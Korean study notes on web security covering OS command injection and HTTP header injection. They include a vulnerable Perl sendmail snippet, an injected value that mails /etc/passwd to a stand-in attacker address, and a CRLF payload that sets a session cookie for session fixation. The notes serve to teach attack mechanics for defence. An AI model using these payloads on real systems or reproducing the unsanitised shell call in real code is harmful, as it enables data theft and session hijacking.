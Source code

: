 ### 11.2.3 OS 커맨드 인젝션
- 웹 애플리케이션을 경유하여 OS 명령을 부정하게 실행하는 공격
- 쉘을 호출하는 함수가 있는 곳에 발생할 가능성이 있다.

#### OS 커맨드 인젝션의 공격 사례
- 문의 폼에서 메일 송신 기능이 있다고 하자.
  - 유저가 문의를 보냈을 때 접수 완료했다는 연락을 입력한 메일 주소로 메일 송신
- 아래는 폼의 내용을 수신한 프로그램을 일부 발췌한 것
  ```shell
  my $adr = $q->param('mailaddress');
  open(MAIL, "| /usr/sbin/sendmail $adr");
  print MAIL "From: info@example.com￥n";
  ```
- 프로그램에서는 `open` 함수에 의해서 sendmail 커맨드를 호출해서 메일 주소에 지정된 값 `$adr$`에 메일을 송신
- 여기서 공격자는 아래의 값을 메일 주소로 지정
  ```shell
  ; cat /etc/passwd | mail hack@example.jp
  ```
- 이 값을 수신했을 때 프로그램 내에서 구성되는 명령은 아래와 같이 된다.
  ```
  | /usr/sbin/sendmail $adr ; cat /etc/passwd | mail hack@example.jp
  ```
- sendmail 커맨드가 실행된 후 일단락되고, 그 다음 커맨드가 실행되면서 /etc/passwd 라는 Linux의 계정 정보가 포함된 파일이 hack@example.jp로 메일로 송신된다.

### 11.2.3 HTTP 헤더 인젝션
- 리스폰스 헤더 필드에 개행 문자 등을 삽입함으로써 임의의 리스폰스 헤더 필드나 바디를 추가하는 수동적 공격
  - 특히 바디를 추가하는 공격을 HTTP 리스폰스 분할 공격(HTTP Response Splitting Attack)이라고 부른다.
- 웹 애플리케이션에서는 다음과 같이 리스폰스 헤더 필드 Location과 Ser-Cookie의 값에 외부에서 받은 값을 삽입하는 일이 있다.
  ```
  Location: http://www.example.com/a.cig?q=12345
  Set-Cookie: UID=12345

  *12345가 삽입된 값
  ```
- HTTP 헤더 인젝션은 이러한 리스폰스 헤더 필드에 값을 출력하는 처리가 있던 곳에 개행 문자를 삽입함으로써 발생
#### HTTP 헤더 인젝션의 공격 사례
- 카테고리를 선택하여 해당 각 카테고리의 페이지로 리다이렉트 시키는 기능이 있다고 하자.
- 카테고리를 선택하면 리스폰스에 [Location:http://example.com/?cat=10]와 같이 Location 헤더 필드 내에 그 값이 반영되어 리다이렉트 된다.
- 공격자는 카테고리 ID를 아래와 같이 고쳐서 리퀘스트를 보낸다.
  ```
  101%0D%0ASet-Cookie:+SID=123456789
  ```
- `%0D%0A`는 HTTP 메시지의 개행 문자를 의미하고, 뒤에 이어지는 내용은 공격자 사이트의 세션 ID에 SID=123456789를 강제적으로 세트하기 위한 Set-Cookie 헤더 필드다.
- 리퀘스트를 보낸 결과로 아래와 같은 내용의 리스폰스가 반환되었다고 가정하자.
  ```
  Location: http://example.com/?cat=101(%0D%0A: 개행문자)
  Set-Cookie: SID=123456789
  ```
- 이 때 Set-Cookie 헤더 필드가 유효하기 때문에 공격자가 지정한 임의의 쿠키가 세팅되어 버린다.
- 이것은 세션 픽세이션이라는, 공격자가 지정한 세션 ID를 사용하게 하는 공격과 조합함으로써, 유저로 위장할 가능성이 있다.
- 공격자가 입력한 `%0D%0A`는 원래 Location 헤더 필드의 쿼리 값이 되어야 하지만 개행 문자로 해석되어 새로운 헤더 필드가 추가되는 결과를 초래한다.
